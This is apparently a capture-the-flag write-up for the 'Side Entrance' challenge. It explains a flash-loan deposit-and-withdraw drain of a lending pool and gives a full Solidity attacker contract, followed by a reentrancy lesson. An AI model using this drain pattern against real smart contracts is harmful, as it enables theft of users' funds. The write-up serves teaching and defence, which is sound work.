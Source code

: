 # Challenge #4: Side Entrance

In this challenge we have to steal ETH from another lending pool smart contract which has 1000 ETH and we have nothing.

The description mentions that the smart contract has functions such us deposit and withdraw. This means that we can manupulate the Ether balance of the lender.

There are two important things here to notice:
1. The withdraw and deposit functions are **not** non-reentrant.
2. The contract verifies whether the loan was paid back by checking the ETH balance of itself.

## Exploit

In order to steal pools's ETH I have to borrow all its ETH, deposit it (when processing the flash loan) and later withdraw it. Check out the exploit code:

```
contract SideEntranceAttacker {
    using Address for address payable;

    SideEntranceLenderPool lender;

    function attack(SideEntranceLenderPool _lender) external {
        lender = _lender;
        uint256 amount = address(lender).balance;
        lender.flashLoan(amount);
        lender.withdraw();
        msg.sender.sendValue(amount);
    } 

    function execute() external payable {
        lender.deposit{value: msg.value}();
    }

    receive() external payable {
        
    }
}
```

First, my *SideEntranceAttacker* contract must implement the *IFlashLoanEtherReceiver* interface that specifies one function - *execute*. The only thing this function does is to deposit all the Ether it receives.

The right exploit starts by calling the *attack* function of the deployed *SideEntranceAttacker* contract.

1. The first step of this function is to check the lender's balance and call the *flashLoan* function. 
2. Then, the lender calls my *execute* function which sends back all Ether to the lender using the *deposit* function. The *flashLoan* function will be successful, because the expression `address(this).balance >= balanceBefore` is true. 
3. The last step is to withdraw all deposited Ether and send it to the attacker's address. 

## Lesson learned

This example shows that you must not allow to change the lender's balance when processing the loan when the lender verifies the correctness of the loan repayment on the base of its balance. 

It can be achieved by specifying all functions that change the balance as non-reentrant.

[<< Back to the README](../README.md)
